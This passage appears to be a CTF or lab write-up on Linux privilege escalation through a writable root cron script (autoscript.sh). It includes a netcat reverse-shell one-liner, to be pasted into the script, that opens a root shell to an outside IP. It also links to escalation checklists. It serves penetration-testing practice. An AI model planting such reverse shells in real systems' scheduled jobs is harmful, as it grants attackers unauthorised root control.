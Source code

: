 h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as  

command = What command should be run  

For Example,  

**#  m   h dom mon dow user  command**  

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly  

**How can we exploit this?**

> We know from our LinEnum scan, that the file autoscript.sh, on user4's Desktop is scheduled to run every five minutes. It is owned by root, meaning that it will run with root privileges, despite the fact that we can write to this file. The task then is to create a command that will return a shell and paste it in this file. When the file runs again in five minutes the shell will be running as root.

**What directory is the 'autoscript.sh' under?** 
`find / -type f -name autoscript.sh 2>/dev/null`
> /home/user4/Desktop/autoscript.sh

`mkfifo /tmp/saujr; nc 10.6.34.114 8888 0</tmp/saujr | /bin/sh >/tmp/saujr 2>&1; rm /tmp/saujr
`
**Further Learning**  

There is never a "magic" answer in the huge area that is Linux Privilege Escalation. This is simply a few examples of basic things to watch out for when trying to escalate privileges_._The only way to get better at it, is to practice and build up experience. Checklists are a good way to make sure you haven't missed anything during your enumeration stage, and also to provide you with a resource to check how to do things if you forget exactly what commands to use.  

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.  

- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)









